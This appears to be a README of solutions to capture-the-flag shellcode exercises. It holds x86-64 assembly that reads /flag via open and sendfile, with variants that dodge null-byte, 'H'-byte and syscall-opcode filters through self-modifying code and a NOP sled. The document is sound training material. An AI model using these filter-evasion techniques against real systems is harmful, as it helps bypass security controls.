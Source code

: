 # Shellcode exercises
To compile and give solution:
```
gcc -nostdlib -static -o file file.s
objcopy --dump-section .text=RawFile file
cat RawFile | /challenge/level_x
```
Before each source code:
```
.intel_syntax noprefix
.global _start
_start:
```
Base shellcode:  
```
mov     rbx, 0x00000067616c662f
push    rbx
mov     rax, 2
mov     rdi, rsp
mov     rsi, 0
syscall

mov     rdi, 1
mov     rsi, rax
mov     rdx, 0
mov     r10, 1000
mov     rax, 40
syscall
```

## ex 1
## ex 2
## ex 3
+ the shellcode must have NO null bytes
```
mov     rbx, 0x67616c662f111111
shr     rbx, 24
push    rbx

xor	rax, rax
inc     rax
inc     rax		                # rax = 2
mov     rdi, rsp	            # rdi = address of /flag
xor     rsi, rsi	            # rsi = 0
xor	rdx, rdx	                # rdx = 0
syscall			                # open

xor     rdi, rdi
inc     rdi		                # rdi = 1
mov     rsi, rax	            # rsi = rax (return value of open)
xor     rdx, rdx	            # rdx = 0
mov     r10w, 1000	            # r10 = 1000
xor     rax, rax
mov     al, 0x28	            # rax = 40
syscall			                # sendfile
```
## ex 4
+ the shellcode must have NO 'H' bytes
```
mov     r10, 0x00000067616c662f
push    r10

push    2
pop     rax             # rax = 2
push    rsp
pop     rdi             # rdi = rsp
push    0
pop     rsi             # rsi = 0
push    0
pop     rdx             # rdx = 0
syscall                 # open

push    1
pop     rdi             # rdi = 1
push    rax
pop     rsi             # rsi = rax (return value of open)
push    0
pop     rdx             # rdx = 0
mov     r10, 1000       # r10 = 1000
push    40
pop     rax             # rax = 40
syscall                 # sendfile
```

## ex 5
+ the shellcode must have NO syscalls
+ forbidden byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), 80cd (`int`)
```
mov     rbx, 0x00000067616c662f
push    rbx
mov     rax, 2
mov     rdi, rsp
mov     rsi, 0
inc     BYTE PTR [rip]
.word   0x050e

mov     rdi, 1
mov     rsi, rax
mov     rdx, 0
mov     r10, 1000
mov     rax, 40
inc     BYTE PTR [rip]
.word   0x050e
```

## ex 6
+ the shellcode must have NO syscalls
+ forbidden byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), 80cd (`int`)
+ removing write permissions from first 4096 bytes of shellcode  
same as 5, but add 4096 nops before actual code